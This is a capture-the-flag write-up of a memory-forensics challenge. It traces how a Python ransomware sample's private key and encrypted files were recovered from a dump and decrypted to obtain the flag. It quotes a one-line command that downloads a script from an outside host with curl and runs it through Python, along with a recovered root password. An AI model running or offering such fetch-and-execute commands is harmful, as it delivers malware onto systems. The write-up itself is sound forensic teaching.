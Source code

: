 By searching the string `locky`, we can get to the Python script (ransomware in Python)
It generates a 4096 RSA private key and encrypts files using this key in rounds 0-13 (depending on time)
Encrypted files are saved with .locky extension and public key as .locky_$stamp (see the code) and private key as privkey.pem
Looking for private key PEM header `BEGIN RSA PRIVATE KEY`, we can get private key from the dump.
We just need the encrypted file to get the flag. A search for ".locking" will list files that are encrypted: file_1 to file_5.
The dump contains the result of "ls -la" command which gives us more details. `file_5` with size of 44 can be the flag.

```
root@debian:~/dump# ls -al
total 44
drwx------  3 root root 4096 Nov 30 07:46 .
drwxr-xr-x 22 root root 4096 Aug 24 12:36 ..
-rw-------  1 root root  694 Nov 30 07:43 .bash_history
-rw-r--r—  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  2 root root 4096 Nov 30 05:54 dump
-rw-r--r—  1 root root   21 Nov 30 07:46 file_1
-rw-r--r—  1 root root   21 Nov 30 07:46 file_2
-rw-r--r—  1 root root   21 Nov 30 07:46 file_3
-rw-r--r—  1 root root   21 Nov 30 07:46 file_4
-rw-r--r—  1 root root   44 Nov 30 07:46 file_5
-rw-r--r—  1 root root  140 Nov 19  2007 .profile
```

By running the Python ransomware in the test environment, it is obvious that the final encrypted file size (with 44 bytes as input) is 512 bytes.
We dumped our test process’s memory. Looking at the dump we got, and based on our sample encrypted files, we can see there is a signature before encrypted bytes in memory.
Finding result of one of rounds is enough because max(round) = 13 (see line 26 of code: round = stamp % 14 )

That signature was `0002000000000000FFFFFFFFFFFFFFFF00000000` ; searching this in the dump, we select 512 bytes after it (we got 4 files)
Decrypting these files using private key 13 times and saving each round led us to the flag.

```
$ grep -n -r SharifCTF *
1.bin_11.txt:1:SharifCTF{df90036c153c345dc707d693225f29e3}
```

The stamp is also used in public key filename and available in dump and we can use it but 13 is too small and not important that much


Search "curl -fsSL"  to see link of Python files downloaded and executed:
```
root@debian:~/dump# /usr/bin/python -c "$(curl -fsSL https://a.uguu.se/0RLtwwwAqLuw.py)"
```
—
We also got what seems to be the root password from dump(xD) : Ya@Abbas

`WARNING: DO NOT RUN RANSOMWARE.PY ON YOU SYSTEM`